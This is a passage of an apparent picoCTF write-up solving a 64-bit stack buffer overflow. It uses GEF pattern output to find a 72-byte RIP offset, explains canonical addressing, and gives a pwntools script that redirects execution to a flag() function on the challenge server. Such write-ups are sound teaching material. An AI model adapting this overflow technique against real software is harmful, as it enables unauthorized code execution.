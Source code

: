 As expected, we receive a segmentation fault. To determine where our RIP offset is, let's look at the stack.

```bash
0x00007fffffffd658│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapa[...]"    ← $rsp
0x00007fffffffd660│+0x0008: "kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqa[...]"
...
```

Notice that the pattern "jaaaaaaaka..." is found at the top of the stack. If this value was a valid memory address, then it should be popped from the stack and passed to RIP. Therefore, the offset to RIP will also be the offset to RSP, as RSP points to this pattern.

```bash
pattern offset $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

Thus, we have determined our offset to be 72 bytes. Additionally, we notice something interesting in the debugger. It appeared that the RIP doesn't get clobbered in this case, which is unlike what we've seen in 32-bit binaries.

```bash
$rip   : 0x00000000004012d1  →  <vuln+31> ret
```

Normally, we would've expected to see a bunch of 61s here. The reason for this is due to **canonical addressing** in x64 systems. Simply put, canonical addresses fall within a specific address size range. Addresses outside of this size range would be considered non-canonical, and will never be pushed into RIP. In this case, the maximum address size is 48 bits in length (or, 6 bytes). For us to control RIP, we will need to mask off the 2 most significant bytes from the 8 byte memory address of our `flag()` function.

To check this, let's generate a pattern of 78 bytes in length, and observe if RIP was clobbered.

```bash
gef➤  pattern create 78
[+] Generating a pattern of 78 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa
[+] Saved as '$_gef5'
gef➤  r
Starting program: .../vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
...
$rip   : 0x61616161616a
```

Indeed, our RIP was clobbered with exactly 6 bytes of data.

We can now proceed to solve this challenge. Using Python 3 and pwntools:

```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 49395) # for remote execution

# payload buffer
payload = b'A' * 72 # RIP offset
payload += p64(0x401236) # 0x0000000000401236

print(p.recvuntil(':'))
p.sendline(payload)
```